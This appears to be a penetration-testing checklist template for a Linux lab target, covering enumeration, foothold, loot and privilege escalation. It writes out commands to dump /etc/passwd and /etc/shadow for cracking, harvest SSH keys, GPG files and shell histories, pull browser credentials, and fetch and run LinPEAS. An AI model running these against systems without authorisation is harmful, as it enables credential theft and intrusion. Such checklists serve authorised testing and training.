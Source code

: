 <% tp.file.rename("0_SystemChecklist")%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 5 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

> Use the service template to document possible attack vectors and document here which worked
### Old software

##### Example Software (v1.0.0)

	 `searchsploit` and Google Dorks

### Insecure configurations

##### Insecure configuration 1
	NSE scripts: `ls /usr/share/nmap/scripts`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
ls /home/*/.gpg/; ls /home/*/.ssh/; cat /home/*/.*_history; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
##### Advanced
X-Server: `pidof X`  (Extract cookies/passwords from browser with `pasco index.dat`)
Mounted Volumes: `cat /etc/fstab; mount; /bin/lsblk`
Drivers: `lsmod`, `/sbin/modinfo [module]`
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```

##### Finding 1
